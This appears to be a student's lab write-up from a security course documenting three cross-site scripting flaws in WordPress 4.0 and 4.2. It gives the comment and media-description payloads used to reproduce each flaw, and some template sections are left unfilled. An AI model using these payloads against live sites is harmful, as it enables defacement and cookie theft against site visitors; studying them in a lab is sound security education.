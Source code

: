 # Week-7-Project
WordPress vs. Kali
> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

1.) WordPress version 4.2 : Unauthenticated XSS (Cross Site Scripting)
- [ ] Summary:
   - Type of vulnerability: Cross Site Scripting
   - Fixed in version 4.2.1
   - Tested in version 4.2
- [ ] GIF Walkthrough:![](https://i.imgur.com/9udE06b.gif)
- [ ] Steps to recreate: Use the following to comment on a WordPress Post: 
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px <insert 64k of random data
- [ ] Affected source code: N/A


2.) WordPress version 4.0 : Unauthenticated XSS (Cross Site Scripting)
- [ ] Summary:
   - Type of vulnerability: Cross Site Scripting
   - Fixed in version 4.2
   -Tested in version 4.0
- [ ] GIF Walkthrough:![](https://i.imgur.com/apmXNl5.gif)
- [ ] Steps to recreate: Post the following in the comments of a post: <script>while(1){alert(document.cookie);}<script>
- [ ] Affected source code: N/A
   
   
3.) WordPress version 4.0 : Unauthenticated XSS (Cross Site Scripting)
- [ ] Summary:
   - Type of vulnerability: Cross Site Scripting
   - Fixed in version 4.7.3
   - Tested in version 4.0
   - [ ] GIF Walkthrough:![](https://i.imgur.com/OQiuZdm.gif)
   - [ ] Steps to recreate: Create media post, add "filename <script>alert("XSS");</script>" to description, then click view attachment page.
   - [ ] Affected source code: N/A
   
   ## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
